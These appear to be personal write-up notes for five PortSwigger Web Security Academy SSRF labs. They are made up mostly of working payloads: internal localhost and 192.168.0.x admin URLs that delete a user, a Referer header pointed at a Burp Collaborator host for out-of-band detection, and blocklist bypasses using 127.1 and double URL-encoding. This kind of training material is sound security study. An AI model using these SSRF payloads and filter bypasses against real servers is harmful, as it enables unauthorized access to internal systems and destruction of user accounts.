 # SSRF

---


## lab 1


- > open product and click check stock
  - > in request you find ``stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=3&storeId=1``
    > change it to ``stockApi=http://localhost/admin&storeId=3``
    > stockApi=http://localhost/admin/delete?username=carlos&storeId=3



---

## lab 2


- > ``http://192.168.0.1:8080/product/stock/check?productId=4&storeId=1``   send it to intruder 182.168.0.``1``
  > found 192.168.0.239   fond it **``404``**
- > http://192.168.0.239:8080/admin
  > http://192.168.0.239:8080/admin/delete?username=carlos




---


## lab 3


<details>
  <summary>Lab: Blind SSRF with out-of-band detection</summary>


## 1. visit product and see the request replace the ``referrer`` to url form `burp colab`

## **`from`**

```http
GET /product?productId=10 HTTP/2
Host: 0aa300db04961214802e3f50008a00aa.web-security-academy.net
Cookie: session=eKWl8nNqg8d0asyLhuim0DQQUKjA74sW
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300db04961214802e3f50008a00aa.web-security-academy.net/        <=======
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

```

## **`to`**


```http
GET /product?productId=3 HTTP/2
Host: 0aa300db04961214802e3f50008a00aa.web-security-academy.net
Cookie: session=eKWl8nNqg8d0asyLhuim0DQQUKjA74sW
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://r7zxj0m1snif5tjpw74kq9bh086zuqif.oastify.com/       <======🔁
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

  
</details>




---


## lab 4


- > try to chnge url to ``http://127.0.0.1/admin`` and it blocked
  > try ``http://127.1/`` it work
  > try ``http://127.1/admin`` it blocked again
  > try ``http://127.1/%2561dmin``
  > http://127.1/%2561dmin/delete?username=carlos




---

## lab 5

- > **/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos**
  










    
